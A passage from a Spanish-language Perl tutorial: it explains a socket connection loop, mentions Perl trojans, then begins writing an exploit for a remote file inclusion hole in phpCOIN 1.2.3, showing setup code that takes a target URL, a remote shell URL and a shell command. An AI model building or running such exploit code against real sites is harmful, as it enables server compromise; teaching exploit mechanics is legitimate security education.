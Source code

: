 ```perl
  or die "Couldn't connect!\n";
  
  print "Connected!\n";
  
  $i++;
}
```

La primer línea llama al módulo IO Socket. Las siguientes tres líneas usan el método STDIN, de captura de entrada del usuario. Tomamos el IP que ingresa el usuario y la almacenamos en **$ip**. Deberías entender esto ya que lo vimos en la sección [0x05: Capturando la entrada del usuario](#gathering-user-input).
Definimos la variable **$i** con el valor 1. Después el loop while ejecuta 5 veces el código del socket. El código del socket tiene Proto o Protocol (TCP/UDP) y nosotros usamos TCP. PeerAddr o Peer Address es igual al IP que el usuario a dado como entrada (almacenado en **$ip**). El puerto, PeerPort, es igual a 80 (HTTP). El código del socket contiene una sentencia que usa la función **die** la cual se ejecuta si una falla la conexión, esta sentencia imprime el mensaje  "Couldn't connect[newline]". La última línea es nuestra verdadera sentencia, la cual imprime "Connected![newline]" si no falla la conexión. Después se incrementa nuestra variable **$i**.
Como dije anteriormente este módulo es usado comunmente en exploits tipo SQL Injection. Este módulo ha sido usado para construir troyanos en Perl, sin embargo, ya que Perl es opensource y no se carga automáticamente en máquinas con Windows, programar troyanos en Perl es más un juego y son fáciles de prevenir.


# 0x09: Escribiendo un exploit<a name="writing-a-exploit"></a>

Ahora es tiempo, tiempo de compilar todo lo que hemos visto. En esta sección toda la información de las secciones anteriores se utiliza para crear un exploit, codificado en Perl, The exploit que vamos a dodificar es uno que explota una vulnerabilidad tipo RFI (Remote File Include) descubierta por mi amigo TimQ. La aplicación web que tiene esta vulnerabilidad es phpCOIN 1.2.3. Un link a la prueba del concepto (PoC): [http://milw0rm.com/exploits/2254](http://milw0rm.com/exploits/2254).
Empecemos. Lo primero que vamos a hacer es definir unas cuantas variables y configurar la entrada del usuario. Veamos:

```perl
#!/usr/bin/perl
use LWP::UserAgent; #Llamamos a nuestro módulo

#Almacenamos la entrada del usuario en estas variables
$site = @ARGV[0];
$shellsite = @ARGV[1];
$shellcmd = @ARGV[2];

if($site !~ /http:\/\// || $shellsite !~ /http:\/\// || !$shellsite) { #Evalúa la validez de las URL's ingresadas
  usg(); #Si las URL's ingresadas NO son válidas, ejecutar la subrutina usg
}

header(); #Ejecutar la subrutina header
```


[activestate-url]: http://www.activestate.us/
[DzSofts-Perl-Editor]: http://www.dzsoft.com/